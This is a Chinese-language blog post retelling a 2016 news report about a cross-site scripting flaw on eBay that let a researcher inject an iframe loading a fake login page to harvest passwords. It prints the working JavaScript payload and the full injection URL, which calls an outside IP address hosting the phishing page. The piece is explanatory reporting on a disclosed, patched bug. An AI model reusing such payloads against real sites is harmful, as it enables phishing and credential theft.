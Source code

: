 ```yaml
---  
layout: post  
title: "跨站脚本漏洞，ebay中枪！"
date: 2016-01-13
categories:  传媒信安     
comments: true
description: 号外！号外！ebay网竟潜存着一个简单有效的漏洞，导致亿万用户遭受高级网络钓鱼攻击。
tags:
    - 传媒信安
---  
```

![](http://127.0.0.1:4000//resources/images/Y1.png) 

号外！号外！ebay网竟潜存着一个简单有效的漏洞，导致亿万用户遭受高级网络钓鱼攻击。

独立安全研究人员报告，上个月，这个ebay的严重漏洞可能让黑客在ebay网站上构建一个虚假的登录页面，即钓鱼页面，用于盗取数以百万计的用户密码和收获凭据。

研究人员，绰号MLT说，任何人都可以利用漏洞，通过发送钓鱼邮件给目标eBay用户，以接管他们的帐户或收获数千，甚至上百万的ebay客户证书。

HMLT发表了一篇关于ebay漏洞的博客文章

```
（https://ret2libc.wordpress.com/2016/01/11/a-tale-of-ebay-xss-and-shoddy-incident-response/）
```
，证明它是多么容易被利用，从而窃取用户的密码。

Here's How ebay Hack Works：

该漏洞实际上寄生在URL参数中，允许黑客向合法的ebay网站上注入了他的iFrame。

这是一种常见的网络bug，技术上称为**跨站脚本（XSS）漏洞**，攻击者可以利用该漏洞将恶意代码注入到合法网站。

MLT拥有一个iframe链接到自己的第三方网络钓鱼页面，其中包含eBay的正规网址，这使得它看起来像在登录“ 合法的ebay网站 ”。

登录页面看起来与ebay的实际登录界面几乎完全一样，除了自定义URL的第二部分，这才是大多数用户不熟知的。

在这种情况下，将含有研究者的钓鱼页面的IFRAME注入到使用以下有效载荷的页面：


```
document.write(‘<iframec=”http://45.55.162.179/ebay/signin.ebay.com/ws/eBayISAPI9f90.html” width=”1500″ height=”1000″>’)
```


下面是完整的URL，包括上述的有效载荷，再注入时间：


```
http://ebay.com/link/?nav=webview& url=javascript:document.write%28%27%3Ciframe%20src=%22http://45.55.162.179/ebay/signin.ebay.com/ws/eBayISAPI9f90.html%22%20width=%221500%22%20height=%221000%22%3E%27%29
```


这个URL的截图：

![](http://127.0.0.1:4000//resources/images/Y2.png) 

 经过这样做，MLT在被感染的网站输入自己的用户名和密码，并登录，这会得到错误提示。但与此同时，他能够偷到用户输入的明文口令。
视频演示

MLT也提供了证明的概念视频，展示了这个安全漏洞的实时性。你可以在Youtube看下视频(https://www.youtube.com/watch?v=WuZ61NWbK_4)。

MLT负责任的报道了12月11日ebay的该漏洞，第二天，该公司只停止了研究人员的电子邮件响应，但并没有发布补丁，甚至不知道该漏洞的后果。

然而，当媒体联系ebay询问有关漏洞时，公司火速发布补丁，并承认MLT关于其发现的网站页面，感谢白帽黑客致力于报告错误。

[阅读原文](http://thehackernews.com/2016/01/ebay-hacking.html#rd?sukey=7f8f3cb2e9b0da45ef1ed2de750a85a1e06c1d33354ff08cd1a90dbd746357ad81f42addec21e240325b39164c9a31cb)